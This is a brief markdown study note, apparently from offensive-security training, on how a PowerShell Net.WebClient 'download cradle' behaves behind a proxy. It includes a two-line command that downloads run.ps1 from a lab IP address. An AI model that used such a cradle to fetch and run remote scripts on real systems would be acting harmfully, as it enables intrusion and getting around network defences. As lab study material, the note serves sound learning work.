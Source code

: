 ## Why is proxy-awareness needed
We have primarily used the _Net.WebClient_ download cradle.

We can validate this by running the following code in a powershell with and without a proxy:
```Powershell
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.150/run.ps1")
```

Without Proxy:
![wo_proxy](../../../Screenshots/wo_proxy.png)

With Proxy:
![w_proxy](../../../Screenshots/w_proxy.png)

We can see that the system.net.webclient is aware of a proxy in use.


